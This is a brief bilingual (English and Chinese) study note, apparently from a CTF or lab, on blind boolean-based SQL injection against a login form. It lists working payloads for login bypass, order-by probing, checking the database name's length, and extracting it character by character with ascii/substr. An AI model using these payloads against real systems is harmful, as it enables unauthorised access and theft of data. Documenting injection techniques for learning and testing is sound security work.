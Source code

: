 # sql

username: admin' or 1=1 -- can login, but nothing happen, needs to get data in database

但是没有可以回显的地方，只能通过表达式，比如说 admin' or 1=1 order by 1-- 正确的话就依旧登录成更，否则就是密码错误（判断无效）

username=admin' and length\(database\(\)\)&gt;25 -- &password=fff 由于知道了用户名的确是admin, 所以用的and, 否则直接用or就好，可以出来数据库的大小

username=admin' and ascii\(substr\(\(select database\(\)\),1,1\)\)=116 通过ascii可以 username=admin' and ascii\(substr\(\(select database\(\)\),1,1\)\)&gt;100

username=admin' and substr\(\(select database\(\)\),1,1\)='t' -- &password=fff

